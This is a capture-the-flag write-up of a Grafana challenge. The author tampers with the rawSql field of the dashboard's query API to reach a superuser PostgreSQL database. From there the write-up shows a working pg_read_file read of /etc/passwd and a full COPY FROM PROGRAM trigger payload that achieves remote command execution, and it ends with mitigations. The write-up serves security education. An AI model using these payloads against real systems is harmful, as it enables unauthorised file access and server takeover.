



## Reconnaissance & Enumeration

We are presented with a Grafana dashboard. Grafana is a frontend application used to present application data in a beautiful way with statistics, graphs, and so on. I actually didn't know Grafana before this challenge, so the first thing I did was look it up online. After learning a bit about the tool, I started to investigate the dashboard. I immediately found the "Dino-Stats" dashboard, which caught my interest because it was the only part of the application that looked "custom". The rest looked pretty much like a default configuration. 

That is why my first instinct was trying to log in with the Grafana default credentials (`admin:admin`), but with no luck. I looked up some methods and techniques to pentest Grafana dashboards and found the following resource: https://hackviser.com/tactics/pentesting/services/grafana. I tested a bit around with the different API endpoints and looked for deprecated plugins and versions, but it turned out that the application was pretty much at the newest version possible. I crossed that off my list.

So I continued with investigating the dino-stats dashboard, as it was still the most interesting part.



I decided to give it a shot in Burp Suite to analyze the traffic going on. After intercepting the requests (there were a whole lot of them), one particular POST request caught my eye:

```http
POST /api/ds/query?ds_type=grafana-postgresql-datasource&requestId=SQR100 HTTP/1.1
Host: wckbqsoejqsoyo6lp2jnd3ficf-3000-grafasaurus.challenge.cscg.live
[...]

{
  "queries": [
    {
      "refId": "A",
      "datasource": {
        "type": "grafana-postgresql-datasource",
        "uid": "P44368ADAD746BC27"
      },
      "rawSql": "SELECT name FROM clades LIMIT 50 ",
      "format": "table",
      "datasourceId": 1,
      "intervalMs": 60000,
      "maxDataPoints": 581
    }
  ],
  "from": "1773480737851",
  "to": "1773502337851"
}
```

This seems like the actual request to the database. Especially the `rawSql` field looks promising. I sent that request straight to the Repeater and tried changing the raw SQL string. Before doing that, I stripped off the `requestId` parameter to avoid any conflicts in the backend. I don't know if that changes anything, but I figured it wouldn't hurt.

To test if we can really manipulate the SQL request, I first tried to query the PostgreSQL version:



And it turns out, we really can manipulate that particular string and query the whole database. Awesome!



## Exploitation

I then continued with exploring the tables, but with no luck. I could only find tables about dinosaur data. So I started to investigate a bit about what is possible with a PostgreSQL connection and found some useful information. The first thing I did was check what permissions I have and if we are maybe the superuser:

```sql
SELECT usesuper FROM pg_user WHERE usename = current_user;
```

```json
HTTP/1.1 200 OK
Content-Type: application/json

{
  "results": {
    "A": {
      "status": 200,
      "frames": [
        {
          "data": {
            "values": [
              [true]
            ]
          }
        }
      ]
    }
  }
}
```

Lets go! That is big. We are actually the superuser. Now let's check if we can run some dangerous functions, which could lead to file reads and so on:

```sql
SELECT proname FROM pg_proc WHERE proname IN ('pg_read_file', 'pg_ls_dir', 'pg_read_binary_file');
```

```json
HTTP/1.1 200 OK
Content-Type: application/json

{
  "results": {
    "A": {
      "status": 200,
      "frames": [
        {
          "data": {
            "values": [
              [
                "pg_ls_dir",
                "pg_read_binary_file",
                "pg_read_file"
              ]
            ]
          }
        }
      ]
    }
  }
}
```

Turns out we can run all the juicy commands! So let's check if we can actually read a file:

```sql
SELECT pg_read_file($$/etc/passwd$$);
```

We can!


Great. As a next step, I checked the root directory of the server to see if the flag file is lying around somewhere:

```sql
SELECT pg_ls_dir('/');
```

Nice, there we have it, the flag file:

```json
HTTP/1.1 200 OK
Content-Type: application/json

{
  "results": {
    "A": {
      "status": 200,
      "frames": [
        {
          "data": {
            "values": [
              [
                "bin", "boot", "dev", "etc", "home", "lib", "lib64", 
                "media", "mnt", "opt", "proc", "root", "run", "sbin", 
                "srv", "sys", "tmp", "usr", "var", "flag", 
                "docker-entrypoint-initdb.d"
              ]
            ]
          }
        }
      ]
    }
  }
}
```

Reading the file with `pg_read_file` did not work unfortunately, so I assumed the file might actually be an executable binary. To check that, I need to run `ls` but with the flags `-la` to get more file permission info. I did some research on how to execute arbitrary commands with PostgreSQL and found the following blog post: https://dba.stackexchange.com/questions/128229/execute-system-commands-in-postgresql.

The commenter explains exactly what I need (Thank you András Váczi)!

So let's run our final payload for the Remote Code Execution (RCE):

```json
{
  "queries": [
    {
      "refId": "A",
      "datasource": {
        "type": "grafana-postgresql-datasource",
        "uid": "P44368ADAD746BC27"
      },
      "rawSql": "DROP TABLE IF EXISTS trigger_test_source CASCADE; DROP TABLE IF EXISTS trigger_test CASCADE; CREATE TABLE trigger_test (command_output text); CREATE OR REPLACE FUNCTION trigger_test_execute_command() RETURNS TRIGGER LANGUAGE plpgsql AS $$BEGIN COPY trigger_test (command_output) FROM PROGRAM 'ls -la /'; RETURN NULL; END;$$; CREATE TABLE trigger_test_source (s_id integer); CREATE TRIGGER tr_trigger_test_execute_command AFTER INSERT ON trigger_test_source FOR EACH STATEMENT EXECUTE PROCEDURE trigger_test_execute_command(); INSERT INTO trigger_test_source VALUES (1); SELECT * FROM trigger_test;",
      "format": "table",
      "datasourceId": 1
    }
  ],
  "from": "now-6h",
  "to": "now"
}
```

**What this command does:**
It creates a new trigger function which sets up our OS command, and then creates a new table. It attaches that trigger to the table so that the trigger gets executed automatically after an `INSERT`. We then insert a dummy value, our command executes, and it writes the output into the trigger table. Then we just need to read the output from the table.

The most important part is here: `FROM PROGRAM 'ls -la /'`. This will execute the `ls -la` command directly in the root directory!

```json
"values": [
  [
    "total 692",
    "drwxr-xr-x   1 root root    39 Mar 14 13:47 .",
    "drwxr-xr-x   1 root root    39 Mar 14 13:47 ..",
    "lrwxrwxrwx   1 root root     7 Jan  1  1970 bin -> usr/bin",
    "---x--x--x   1 root root 706568 Jan  1  1970 flag",
    "drwxr-xr-x   1 root root    19 Jan  1  1970 usr",
    "drwxr-xr-x   1 root root    17 Jan  1  1970 var"
  ]
]
```
*(Output truncated for brevity)*

And there we go! The flag is actually a binary, and it is owned by `root`. But since our database user is a superuser, we should be able to just execute the flag file and read the output:

```sql
[...] trigger_test (command_output) FROM PROGRAM '/flag'; [...];
```

And there we go, we have the flag!

```json
"values": [
  [
    "dach2026{Gr4f4na_c0mb1n3d_w1th_d1n0s4ur_d4ta}"
  ]
]
```

## Mitigations

This challenge featured a classic misconfiguration bug. The software itself was perfectly patched, and no CVEs were known for this particular Grafana version. But the problem was a combination of two bad practices:
1. Anonymous login with viewer permissions was enabled, which allowed unauthenticated users to hit the `/api/ds/query` endpoint and proxy queries to the database.
2. The database user configured in Grafana was given `superuser` privileges instead of a restricted, read-only role.

The viewer permissions misconfiguration is actually described here in detail: https://grafana.com/docs/grafana/latest/setup-grafana/configure-security/#limit-viewer-query-permissions. So the problem is not on the Grafana side, but with the admin who set up the dashboard and database connection.

That's it! It was a pretty fun challenge and taught me a lot about PostgreSQL that I didn't know before.